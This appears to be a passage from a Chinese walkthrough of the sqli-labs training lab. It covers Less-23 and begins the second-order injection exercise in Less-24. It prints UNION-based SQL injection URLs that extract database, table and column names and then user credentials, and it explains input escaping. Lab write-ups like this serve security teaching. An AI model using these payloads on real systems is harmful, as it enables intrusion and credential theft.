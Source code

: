 ```
http://daishen.ltd:1112/Less-23/?id=1' and 1=2 union select 1,2,3 and '1' ='1
```

暴库

```
http://daishen.ltd:1112/Less-23/?id=-1' union select 1,2,database() '
```

暴表

```
http://daishen.ltd:1112/Less-23/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() and '1'='1
```

暴字段

```
http://daishen.ltd:1112/Less-23/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and '1'='1
```

暴内容

```
http://daishen.ltd:1112/Less-23/?id=-1' union select 1,2,group_concat(username,password) from users where 1 and '1'='1
```

# **Less - 24** 

**Second Degree Injections \*Real treat\* -Store Injections (二次注入)**



### 思路分析

从代码上来看貌似都被转义了，乍一看是成功注入的。实际上的确不能使用常规的思路来进行注入，因为这题是二次注入，ISCC 2019 当时使用这题的考查点是修改掉 admin 用户的密码，然后再登录即可。假设不知道 admin 用户的情况下，想要修改掉 admin 用户的密码的话，这里就使用的是二次注入的姿势了。

**二次注入** 简单概括就是黑客精心构造 SQL 语句插入到数据库中，数据库报错的信息被其他类型的 SQL 语句调用的时候触发攻击行为。因为第一次黑客插入到数据库的时候并没有触发危害性，而是再其他语句调用的时候才会触发攻击行为，这个就是二次注入。

先看创建用户的地方：

```sql
username =  mysql_escape_string($_POST['username']) ;
```

username 被 `mysql_escape_string` 函数过滤了，该函数的作用如下：

| 危险字符 | 转义后 |
| :------- | :----- |
| `\`      | `\\`   |
| `'`      | `\'`   |
| `"`      | `\"`   |
